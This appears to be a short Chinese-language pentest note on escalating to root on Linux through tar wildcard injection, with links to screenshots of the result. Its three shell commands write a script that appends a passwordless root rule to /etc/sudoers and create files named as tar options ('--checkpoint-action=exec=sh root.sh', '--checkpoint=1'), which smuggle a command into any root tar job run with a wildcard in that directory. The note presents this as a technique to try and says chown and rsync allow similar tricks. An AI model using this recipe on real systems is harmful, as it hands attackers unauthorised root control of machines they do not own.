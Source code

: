 1. 写入脚本
2. 利用命令中某些可利用执行脚本的选项，创建具有这些选项名称的文件
3. tar提权
```bash
echo 'echo "用户名 ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

4. 首先需要root用户在root.sh这个自定脚本目录执行tar带参数的压缩命令，才可以触发。如果碰巧遇到了定时压缩文件可写目录的操作，可以一试。利用截图：[![](./images/20231017_2359461265.png)](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124526103.png)<br />[![](./images/20231017_2359472992.png)](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124543668.png)<br />[![](./images/20231017_2359487405.png)](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124559823.png)
5. 类似的通配符还有chown和rsync
